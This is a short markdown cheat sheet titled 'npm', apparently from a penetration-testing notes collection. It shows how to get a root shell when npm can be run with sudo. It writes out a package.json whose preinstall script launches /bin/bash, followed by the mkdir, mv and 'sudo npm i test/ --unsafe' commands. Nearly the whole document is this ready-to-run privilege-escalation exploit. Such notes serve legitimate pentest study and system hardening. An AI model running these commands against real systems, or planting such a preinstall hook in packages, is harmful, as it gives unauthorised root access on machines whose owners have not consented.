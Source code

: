 ```yaml
---
title: "npm"
date: 2024-6-26
tags: ["Npm", "Nodejs", "Sudo", "Exploitation"]
---
```


#### SUDO

Create a 'package.json'

```console
{
  "name": "root",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "/bin/bash"
  }
}
```

<br>

```console
mkdir test
```

```console
mv package.json test/
```

```console
sudo npm i test/ --unsafe
```
